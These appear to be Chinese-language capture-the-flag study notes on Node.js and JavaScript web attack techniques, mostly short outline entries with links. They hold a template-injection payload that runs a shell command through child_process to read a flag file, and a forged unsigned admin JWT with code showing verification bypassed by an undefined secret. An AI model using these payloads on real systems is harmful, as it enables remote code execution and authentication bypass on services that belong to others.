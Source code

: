 - # 原型链污染
	- [[CTF/JS/原型链污染]]
- # 在HTTP请求中伪造整个HTTP请求
	- ((63c7fc34-474b-48bd-a4f8-5c5a68188c89))
- # outputFunctionName
	- `a=1;return global.process.mainModule.constructor._load('child_process').execSync('cat /flag');//`
- # 大小写转换
	- https://www.leavesongs.com/HTML/javascript-up-low-ercase-tip.html
- # 乱码加密
  id:: 636665b6-16ed-4f0a-b6fc-46c5756e5222
	- 题目：NaNNaNNaNNaN-Batman
	  
	  js 中的控制字符代表 js 代码，可以被 js 自动转义
- # Buffer()
	- 在较早一点的 node 版本中 (8.0 之前)，当 Buffer 的构造函数传入数字时, 会得到与数字长度一致的一个 Buffer，并且这个 Buffer 是未清零的。8.0 之后的版本可以通过另一个函数 Buffer.allocUnsafe(size) 来获得未清空的内存。
- # JWT
  id:: 62efd884-36bd-4729-a628-6c94b3f1b08b
	- 不知道 secret，可以通过传入一个 undefined 来关闭验证功能。
	  
	  如下：
	  
	  ```javascript
	  const evil_jwt = "eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJzZWNyZXRpZCI6W10sInVzZXJuYW1lIjoiYWRtaW4iLCJwYXNzd29yZCI6IjEyMyIsImlhdCI6MTY0NzMzNDY5OH0."
	  const result = jwt.verify(
	  evil_jwt,   // 不包含签名的自定义jwt
	  undefined,  // secret
	  "HS256"     //受害者指定的加密算法
	  );
	  ```
- # 绕过
	- [[CTF/JS/WAF绕过]]
- # 注释
	- JS 也可以使用 html 的注释`<!-- -->`
- # 解混淆
	- https://blog.csdn.net/weixin_43411585/article/details/123437953
	- https://blog.csdn.net/freeking101/article/details/121668637
-